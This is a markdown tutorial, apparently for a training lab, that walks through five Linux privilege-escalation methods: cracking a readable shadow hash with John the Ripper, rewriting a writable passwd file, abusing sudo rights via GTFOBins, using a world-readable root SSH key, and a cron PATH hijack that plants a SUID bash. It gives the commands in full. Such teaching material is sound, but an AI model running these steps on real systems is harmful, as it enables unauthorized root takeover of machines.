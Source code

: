 # 🔥 Linux Privilege Escalation

In this we are going to see different type of methods for Linux Privilege Escalation for this you have to get a ssh or reverse connection to a linux machine

You can watch tutorial on my youtube or set up a victim linux machine and get a ssh connection to your attacker machine.

### (Method #1)

So after setting up the connection check the shadow file is accessible by the normal user or not,in this it can be accesses so we will copy the hash of the root user and save in a txt file to run it with john the ripper to bruteforce for the password and login with the root user.



<figure><img src=".gitbook/assets/2 (1).png" alt=""><figcaption></figcaption></figure>

```bash
// john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

<figure><img src=".gitbook/assets/3 (1).png" alt=""><figcaption></figcaption></figure>

Here you will get the root password and you can login with su root and password.

### (Method #2)

In this method we will first check the permissions of the passwd file&#x20;

<figure><img src=".gitbook/assets/new.png" alt=""><figcaption></figcaption></figure>

then if is accesssible by the normal user we will generate the a password and replace the root password of the file with ours and then login in the root user.

<figure><img src=".gitbook/assets/5 (1).png" alt=""><figcaption></figcaption></figure>

### (Method #3)

In this method we will first type **sudo -l** to check the available sudo commands which can be run without the password

<figure><img src=".gitbook/assets/6.png" alt=""><figcaption></figcaption></figure>

then go to [https://gtfobins.github.io/](https://gtfobins.github.io/) and search for any of the commands in this i will be searching for the awk command.

<figure><img src=".gitbook/assets/7.png" alt=""><figcaption></figcaption></figure>

and then copy the sudo one and paste it in terminal and you will get the root shell.

<figure><img src=".gitbook/assets/8.png" alt=""><figcaption></figcaption></figure>

### (Method #4)

Look for hidden files & directories in the system root:

`ls -la /`

Note that there appears to be a hidden directory called .ssh. View the contents of the directory:

`ls -l /.ssh`

Note that there is a world-readable file called root\_key. Further inspection of this file should indicate it is a private SSH key. The name of the file suggests it is for the root user.

Copy the key over to your Kali box (it's easier to just view the contents of the root\_key file and copy/paste the key) and give it the correct permissions, otherwise your SSH client will refuse to use it:

`chmod 600 root_key`

Use the key to login to the Debian VM as the root account (note that due to the age of the box, some additional settings are required when using SSH):

`ssh -i root_key -oPubkeyAcceptedKeyTypes=+ssh-rsa -oHostKeyAlgorithms=+ssh-rsa root@MACHINE_IP`

### (Method #5)

View the contents of the system-wide crontab:\


`cat /etc/crontab`

Note that the PATH variable starts with /home/user which is our user's home directory.

Create a file called overwrite.sh in your home directory with the following contents:

\#!/bin/bash\
\
cp /bin/bash /tmp/rootbash\
chmod +xs /tmp/rootbash

Make sure that the file is executable:

`chmod +x /home/user/overwrite.sh`

Wait for the cron job to run (should not take longer than a minute). Run the /tmp/rootbash command with -p to gain a shell running with root privileges:

`/tmp/rootbash -p`

Remember to remove the modified code, remove the /tmp/rootbash executable and exit out of the elevated user.

`rm /tmp/rootbash`\
`exit`



